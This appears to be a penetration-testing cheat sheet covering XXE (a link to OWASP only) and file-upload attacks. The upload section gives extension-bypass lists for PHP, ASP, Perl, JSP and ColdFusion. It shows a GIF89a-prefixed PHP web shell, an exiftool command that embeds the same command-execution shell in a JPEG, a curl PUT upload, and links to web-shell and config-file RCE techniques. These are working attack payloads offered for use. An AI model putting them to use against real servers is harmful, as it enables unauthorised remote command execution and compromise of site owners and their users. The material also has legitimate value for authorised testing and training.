## XXE
参考owasp介绍
https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing

## File upload
+ change the file extension, abc.php.gif
+ test file extension; 
+ add gif89a to bypass
+ write to file
+ curl upload file
+ htaccess file upload and webshell, [reference](https://www.onsecurity.io/blog/file-upload-checklist/#uploading-a-htaccess-file)
+ aspx file upload rce config.[upload web config file for aspx rce](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
+ [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

```bash
# upload test, extension
## burpsuite test
extensions: asp, aspx, php, php7, pl, exe, config, cgi

# rename bypass
## php 
[ .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .phar .inc ]

## asp
.asp, .aspx

## perl
.pl, .pm, .cgi, .lib

## jsp
.jsp, .jspx, .jsw, .jsv, and .jspf

## Coldfusion 
.cfm, .cfml, .cfc, .dbm

# gif89a， 添加gif文件头
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>

# 写入图片文件
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

# curl upload, put method supported.
curl http://ip:port --upload-file xxx.xx
```
